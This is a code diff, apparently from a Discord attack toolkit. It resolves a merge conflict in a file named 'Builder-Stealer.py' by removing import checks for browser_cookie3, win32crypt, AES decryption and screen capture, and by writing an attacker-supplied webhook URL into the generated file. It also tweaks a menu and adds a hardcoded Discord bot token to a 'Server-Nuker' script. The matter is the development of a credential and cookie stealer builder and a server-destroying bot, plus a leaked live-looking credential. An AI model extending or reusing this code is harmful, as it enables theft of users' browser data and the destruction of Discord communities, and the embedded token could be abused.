

2.8 BUGS

diff --git a/Settings/Program/Builder-Stealer.py b/Settings/Program/Builder-Stealer.py
@@ -1503,7 +1503,6 @@ print(f"{color.RED}\n[!] | Installing missing modules:{color.RESET}")
 
 subprocess.check_call(['pip', 'install', '--upgrade', 'discord.py'])
 
-<<<<<<< HEAD:Settings/Program/Builder-Stealer.py
 ModuleInstall("screeninfo")
 ModuleInstall("psutil")
 ModuleInstall("GPUtil")
@@ -1514,118 +1513,6 @@ ModuleInstall("discord")
 ModuleInstall("pywin32")
 ModuleInstall("Pillow")
 ModuleInstall("browser_cookie3")
-=======
-try:
-   import platform
-except:
-   ModuleInstall("platform")
-try:
-   import ctypes
-except:
-   ModuleInstall("ctypes")
-
-try:
-   import screeninfo
-except:
-   ModuleInstall("screeninfo")
-
-try:
-   import psutil
-except:
-   ModuleInstall("psutil")
-
-try:
-   import GPUtil
-except:
-   ModuleInstall("GPUtil")
-
-try:
-   import sqlite3
-except:
-   ModuleInstall("sqlite3")
-
-try:
-   import json
-except:
-   ModuleInstall("json")
-
-try:
-   import socket
-except:
-   ModuleInstall("socket")
-
-try:
-   import requests
-except:
-   ModuleInstall("requests")
-
-try:
-   from Crypto.Cipher import AES
-except:
-   ModuleInstall("pycryptodome")
-
-try:
-   import datetime
-except:
-   ModuleInstall("datetime")
-
-try:
-   import base64
-except:
-   ModuleInstall("base64")
-
-try:
-   import re
-except:
-   ModuleInstall("re")
-try:
-   import string
-except:
-   ModuleInstall("string")
-try:
-   import win32api
-except:
-   ModuleInstall("win32")
-try:
-   import discord
-except:
-   ModuleInstall("discord")
-   ModuleInstall("discord.py")
-try:
-   import sys
-except:
-   ModuleInstall("sys")
-try:
-   import shutil
-except:
-   ModuleInstall("shutil")
-try:
-   import pathlib
-except:
-   ModuleInstall("pathlib")
-try:
-   import zipfile
-except:
-   ModuleInstall("zipfile")
-try:
-   import win32crypt
-except:
-   ModuleInstall("win32crypt")
-   ModuleInstall("win32")
-try:
-   import uuid
-except:
-   ModuleInstall("uuid")
-try:
-   from PIL import ImageGrab
-except:
-   ModuleInstall("pyautogui")
-   ModuleInstall("imagegrab")
-try:
-   import browser_cookie3
-except:
-   ModuleInstall("browser_cookie3")
->>>>>>> f470bc26151010e26c0a6ffcffb444e6adb7a27b:Settings/Program/BuilderGrab.py
 
 with open(file_text, 'w', encoding='utf-8') as file:
  file.write(f"webhook_url = \"{webhook}\"")

diff --git a/Settings/Start.py b/Settings/Start.py
@@ -153,7 +153,7 @@ try:
  option_next_txt = option_next.ljust(30)[:30]
 
 
- page1 = f"""
+ page1 = f"""{color.WHITE}[{color.RED}Page n°1{color.WHITE}]
    {color.WHITE}[{color.RED}01{color.WHITE}] {color.RED}->{color.WHITE} {option_01_txt} {color.WHITE}[{color.RED}11{color.WHITE}] {color.RED}->{color.WHITE} {option_11_txt} {color.WHITE}[{color.RED}21{color.WHITE}] {color.RED}->{color.WHITE} {option_21_txt}
    {color.WHITE}[{color.RED}02{color.WHITE}] {color.RED}->{color.WHITE} {option_02_txt} {color.WHITE}[{color.RED}12{color.WHITE}] {color.RED}->{color.WHITE} {option_12_txt} {color.WHITE}[{color.RED}22{color.WHITE}] {color.RED}->{color.WHITE} {option_22_txt}
    {color.WHITE}[{color.RED}03{color.WHITE}] {color.RED}->{color.WHITE} {option_03_txt} {color.WHITE}[{color.RED}13{color.WHITE}] {color.RED}->{color.WHITE} {option_13_txt} {color.WHITE}[{color.RED}23{color.WHITE}] {color.RED}->{color.WHITE} {option_23_txt}

diff --git a/Settings/Program/Discord-Bot-Server-Nuker.py b/Settings/Program/Discord-Bot-Server-Nuker.py
@@ -8,6 +8,7 @@ Title("Discord Bot Server Nuker")
 token = input(f"{color.RED}\n[?] | Token Bot -> {color.RESET}")
 
 prefix = "!"
+token = "MTIwMDg1Njk4ODI4OTA5MzczNg.GrLemQ.BGOOdGwKaRiUf3SnSU7Jt4_SH0SOUAb0lZBqWE"
 
 discord_py_version = None
 for package in pkg_resources.working_set:
